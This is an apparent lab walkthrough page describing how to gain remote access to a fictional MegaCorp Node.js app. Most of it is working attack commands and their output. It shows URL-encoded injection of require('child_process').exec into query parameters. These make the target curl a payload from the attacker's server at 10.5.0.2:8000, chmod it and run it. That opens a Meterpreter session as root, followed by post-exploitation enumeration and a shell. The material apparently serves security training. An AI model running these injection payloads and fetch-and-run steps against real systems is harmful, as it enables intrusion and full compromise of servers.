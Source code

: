 ```yaml
---
id: execute_hack
title: Using a vulnerability to gain remote access
sidebar_label: Gain remote access
---
```


## The vulnerability

One of the applications of MegaCorp, the branch finder application, has a vulnerability in a library that it uses to render the results.

... more details on the vuln.

## Executing the payload

The first step is to get the payload on the target machine. We do this by abusing the vulnerability that allows us to execute code on the remote host.

We want the remote host to download the payload binary that we are hosting on the python http server, and write it to the local filesystem.

```shell
curl $(dig +short kali.container.shipyar.run):8000/payload -o payload
```

Wrapped inside of the url parameters of the vulnerable service, it would look like this:

```shell
┌──(root💀kali)-[/]
└─$ curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27curl+10.5.0.2:8000/payload+-o+payload%27)-%27"

<div>String: x,y'-require('child_process').exec('curl 10.5.0.2:8000/payload -o payload')-'</div><div> Mobile version </div>
```

Now that we have the file present on the remote host, we have to make it executable in order to run our payload.
We can do that by changing the file permissions of the binary.

```shell
chmod +x payload
```

Wrapped inside of the url parameters of the vulnerable service, it would look like this:

```shell
┌──(root💀kali)-[/]
└─$ curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27chmod+%2Bx+payload%27)-%27"

<div>String: x,y'-require('child_process').exec('chmod +x payload')-'</div><div> Mobile version </div>
```

And finally, we can execute the payload binary on the remote host.

```shell
./payload
```

Wrapped inside of the url parameters of the vulnerable service, it would look like this:

```shell
┌──(root💀kali)-[/]
└─$ curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27./payload%27)-%27"

<div>String: x,y'-require('child_process').exec('./payload')-'</div><div> Mobile version </div>
```

As soon as the payload gets executed, we see a session show up in the metasploit console and a meterpreter session is automatically opened on the target host.

```shell
[*] http://0.0.0.0:9999 handling request from 10.5.0.4; (UUID: w26bw3o1) Redirecting stageless connection from /h7sUeWnwyAwFZgNnWs3kzgCzN70KnX64Dz_mC1nzQlzyq-Uk9uMBpMDwp9GU6yZ9 with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://0.0.0.0:9999 handling request from 10.5.0.4; (UUID: w26bw3o1) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.5.0.2:9999 -> 10.5.0.4:43191) at 2020-11-11 13:05:45 +0000

meterpreter >
```

## Examine the remote host

Now that we have access to the remote host, let's see what kind of information we can gather.  
First let's take a look at where we landed on the host..

```shell
meterpreter > pwd

/usr/src/app
```

and as which user we have opened a session.

```shell
meterpreter > getuid

Server username: root @ search-586495dcd8-rqjk9 (uid=0, gid=0, euid=0, egid=0)
```

We can take a look at all the running processes..

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name     Arch    User  Path
 ---   ----  ----     ----    ----  ----
 1     0     npm      x86_64  root  /usr/local/bin
 17    1     sh       x86_64  root  /bin
 18    17    node     x86_64  root  /usr/local/bin
 28    0     bash     x86_64  root  /bin
 1158  18    sh       x86_64  root  /bin
 1159  1158  payload  x86     root  /usr/src/app
```

and even gather additional information by executing post modules.

```shell
meterpreter > run post/linux/gather/enum_system

[+] Info:
[+]     Debian GNU/Linux 9
[+]     Linux search-586495dcd8-rqjk9 4.19.104-microsoft-standard #1 SMP Wed Feb 19 06:37:35 UTC 2020 x86_64 GNU/Linux
[+]     Module running as "root" user
[*] Linux version stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_215236.txt
[*] User accounts stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_085161.txt
[*] Installed Packages stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_996275.txt
[*] Running Services stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_708083.txt
[*] Cron jobs stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_579733.txt
[*] Disk info stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_231217.txt
[*] Logfiles stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_252829.txt
[*] Setuid/setgid files stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_496087.txt
[*] CPU Vulnerabilities stored in /root/.msf4/loot/20201111131300_default_1_linux.enum.syste_470958.txt
```

## Get a shell on the remote host

But what we really want is a shell on the remote host.

```shell
meterpreter > shell

Process 1165 created.
Channel 1 created.
```

Eventhough we do not see a command prompt, we do still have a full shell available to us.
Let's test this by listing the files in the current directory.

```shell
ls -lha

total 1.2M
drwxr-xr-x  1 root root 4.0K Nov 11 12:54 .
drwxr-xr-x  1 root root 4.0K Mar 15  2019 ..
drwxr-xr-x  2 root root 4.0K Mar 15  2019 .circleci
drwxr-xr-x  8 root root 4.0K Mar 15  2019 .git
-rw-r--r--  1 root root   82 Mar 15  2019 Dockerfile
-rw-r--r--  1 root root 3.3K Mar 15  2019 README.md
-rw-r--r--  1 root root  639 Mar 15  2019 app.js
drwxr-xr-x 53 root root 4.0K Mar 15  2019 node_modules
-rw-r--r--  1 root root  165 Mar 15  2019 package.json
-rwxrwxrwx  1 root root 1.1M Nov 11 13:05 payload
drwxr-xr-x  2 root root 4.0K Mar 15  2019 templates
-rw-r--r--  1 root root  14K Mar 15  2019 yarn.lock
```

Now let's abuse our new found access.
